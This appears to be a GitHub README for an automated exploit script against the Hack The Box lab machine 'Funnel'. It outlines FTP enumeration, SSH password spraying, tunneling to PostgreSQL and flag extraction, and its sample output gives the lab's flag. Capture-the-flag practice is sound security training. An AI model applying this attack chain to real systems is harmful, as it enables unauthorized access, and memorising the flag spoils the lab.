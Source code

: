 ﻿# Funnel Exploit - HTB

## Description

This is an **automated Python exploit** for the Hack The Box machine **"Funnel"**.  
It performs:
- **FTP Enumeration & File Extraction**
- **Username Extraction from Emails**
- **SSH Password Spraying**
- **Port Forwarding via SSH Tunneling**
- **PostgreSQL Exploitation & Flag Extraction**

---

## **Usage**

### 1️⃣ Install Dependencies

Ensure you have the required packages installed:

```bash
pip install paramiko psycopg2 nmap
```

### 2️⃣ Run the Exploit

```bash
python3 funnel_exploit.py
```

---

## **Exploit Details**

1. **Enumerates FTP (Anonymous Access)**
2. **Extracts Usernames & Default Password**
3. **Attempts SSH Login via Password Spraying**
4. **Sets Up SSH Tunnel to Access PostgreSQL**
5. **Queries PostgreSQL for Flag**

---

## **Sample Output**

```bash
$ python3 funnel_exploit.py

                                                                                                                                                                                                                                                           
[+] Running Nmap Scan...
[+] Open Ports: [21, 22]

[+] Checking FTP anonymous access...
[+] Downloading welcome_28112022
[+] Downloading password_policy.pdf
[+] FTP files retrieved.

[+] Extracting usernames...
[+] Users found: ['christine', 'albert', 'maria']

[+] Testing SSH logins...
[+] SSH login successful for christine.

[+] Establishing SSH connection...
[+] SSH Connected.

[+] Setting SSH Tunnel...
[+] SSH Tunnel established.

[+] Querying PostgreSQL...
📌 [FLAG] cf277664b1771217d7006acdea006db1

[+] Cleanup complete.
```

---

## **Legal Disclaimer**

> This tool is for **educational purposes only**.  
> Unauthorized use against live systems is strictly prohibited.

---
